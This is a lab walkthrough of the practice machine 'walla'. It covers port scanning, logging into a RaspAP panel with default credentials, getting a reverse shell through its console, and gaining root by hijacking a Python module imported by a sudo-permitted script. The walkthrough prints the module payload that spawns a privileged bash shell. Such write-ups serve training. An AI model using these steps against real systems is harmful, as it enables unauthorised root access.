






I began the machine with scanning all 65,535 ports.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-11 16:55 UTC
Nmap scan report for 192.168.109.97
Host is up (0.048s latency).
Not shown: 65528 closed tcp ports (reset)
PORT STATE SERVICE
22/tcp open ssh
23/tcp open telnet
25/tcp open smtp
53/tcp open domain
422/tcp open ariel3
8091/tcp open jamlink
42042/tcp open unknown
Nmap done: 1 IP address (1 host up) scanned in 13.92 seconds
Discovered 7 open ports.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 22,23,25,53,422,8091,42042
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-11 16:57 UTC
Nmap scan report for 192.168.109.97
Host is up (0.046s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
| 2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
| 256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_ 256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
23/tcp open telnet Linux telnetd
25/tcp open smtp Postfix smtpd
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Not valid before: 2020-09-17T18:26:36
|_Not valid after: 2030-09-15T18:26:36
53/tcp open tcpwrapped
422/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
| 2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
| 256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_ 256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
8091/tcp open http lighttpd 1.4.53
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth:
| HTTP/1.1 401 Unauthorized\\x0D
|_ Basic realm=RaspAP
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
|_http-server-header: lighttpd/1.4.53
42042/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
| 2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
| 256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_ 256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
Service Info: Host: walla; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 18.59 seconds
Also scanned for open UDP ports
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-11 16:57 UTC
Nmap scan report for 192.168.109.97
Host is up (0.045s latency).
PORT STATE SERVICE
53/udp open|filtered domain
67/udp open|filtered dhcps
123/udp closed ntp
135/udp closed msrpc
137/udp closed netbios-ns
138/udp closed netbios-dgm
161/udp closed snmp
445/udp closed microsoft-ds
631/udp open|filtered ipp
1434/udp closed ms-sql-m
Nmap done: 1 IP address (1 host up) scanned in 6.33 seconds
I tried to connect to target’s port 23 using telnet for banner grabbing.
┌──(kali㉿kali)-[~/Desktop]
└─$ telnet $IP 23
Trying 192.168.109.97...
Connected to 192.168.109.97.
Escape character is '^]'.
Linux Telnetd 0.17
Debian GNU/Linux 10
walla login:
I looked for known vulnerabilities and there was one and I first thought it was a match but it didn’t get me anywhere. I kept looking for leads.
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit telnet 0.17
-------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
-------------------------------------------------------------------------------------------------------- ---------------------------------
GNU inetutils < 1.9.4 - 'telnet.c' Multiple Overflows (PoC) | linux/dos/45982.txt
GoodTech Telnet Server < 5.0.7 - Buffer Overflow Crash | windows/dos/882.cpp
GoodTech Telnet Server < 5.0.7 - Remote Buffer Overflow (2) | windows/remote/883.c
netkit-telnet-0.17 telnetd (Fedora 31) - 'BraveStarr' Remote Code Execution | linux/remote/48170.py
-------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
The web service on port 8091 is asking for credentials.

Looking back at the Nmap result, I thought RaspAP has to be the name for the service being hosted on the port.
8091/tcp open http lighttpd 1.4.53
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth:
| HTTP/1.1 401 Unauthorized\\x0D
|_ Basic realm=RaspAP
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
|_http-server-header: lighttpd/1.4.5
I found the default credentials of the service.

Apparently the service was still using the default credentials.

I found a known vulnerability related to RaspAP but unfortunately it didn’t get me a shell.
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit raspap
-------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
-------------------------------------------------------------------------------------------------------- ---------------------------------
RaspAP 2.6.6 - Remote Code Execution (RCE) (Authenticated) | php/webapps/50224.py
-------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Exploring the website, I found the built-in console under the System tab.

I tried to connect the console to my reverse shell listener.

I was able to get the reverse shell using penelope .

Under /home/walter , I found local.txt and wifi_reset.py
www-data@walla:/home$ ls -aR
.:
. .. janis paige terry walter
./janis:
. .. .bash_logout .bashrc .profile
./paige:
. .. .bash_logout .bashrc .profile .zshrc
./terry:
. .. .bash_logout .bashrc .profile
./walter:
. .. .bash_logout .bashrc .profile local.txt wifi_reset.py
found local.txt
www-data@walla:/home/walter$ cat local.txt
0556...
Interestingly, www-data can run a few commands with sudo privileges starting with the file I just found.
www-data@walla:/home/walter$ sudo -l
Matching Defaults entries for www-data on walla:
env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin
User www-data may run the following commands on walla:
(ALL) NOPASSWD: /sbin/ifup
(ALL) NOPASSWD: /usr/bin/python /home/walter/wifi_reset.py
(ALL) NOPASSWD: /bin/systemctl start hostapd.service
(ALL) NOPASSWD: /bin/systemctl stop hostapd.service
(ALL) NOPASSWD: /bin/systemctl start dnsmasq.service
(ALL) NOPASSWD: /bin/systemctl stop dnsmasq.service
(ALL) NOPASSWD: /bin/systemctl restart dnsmasq.service
Reviewing the wifi_reset.py source code, I noticed it imports a module named wificontroller . Since this module isn’t present in the current directory, I can perform a hijacking attack by creating a malicious wificontroller.py file to gain elevated privileges.
www-data@walla:/home/walter$ cat wifi_reset.py
#!/usr/bin/python
import sys
try:
import wificontroller
except Exception:
print "[!] ERROR: Unable to load wificontroller module."
sys.exit()
wificontroller.stop("wlan0", "1")
wificontroller.reset("wlan0", "1")
wificotroller.start("wlan0", "1")
The payload can be as simple as this:
www-data@walla:/home/walter$ cat << wook > wificontroller.py
> import os;
> os.system("/bin/bash -p");
> wook
Obtained the root shell.
www-data@walla:/home/walter$ sudo /usr/bin/python /home/walter/wifi_reset.py
root@walla:/home/walter# whoami
root
Found proof.txt
root@walla:/home/walter# cd /root
root@walla:~# ls
proof.txt
root@walla:~# cat proof.txt
b892...